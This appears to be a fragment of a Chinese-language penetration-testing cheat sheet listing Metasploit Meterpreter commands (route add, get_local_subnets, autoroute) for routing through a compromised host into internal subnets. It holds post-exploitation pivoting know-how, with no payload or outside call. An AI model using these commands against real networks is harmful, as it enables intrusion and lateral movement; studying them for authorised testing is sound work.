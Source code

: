 	> route add 内网网卡ip 子网掩码 session的id
	> route list
	&
	Meterpreter>run get_local_subnets查看网段信息再添加路由
	> run autoroute -s内网网卡ip/24
	> run autoroute -p 查看路由表
	&
	Meterpreter>run post/multi/manage/autoroute
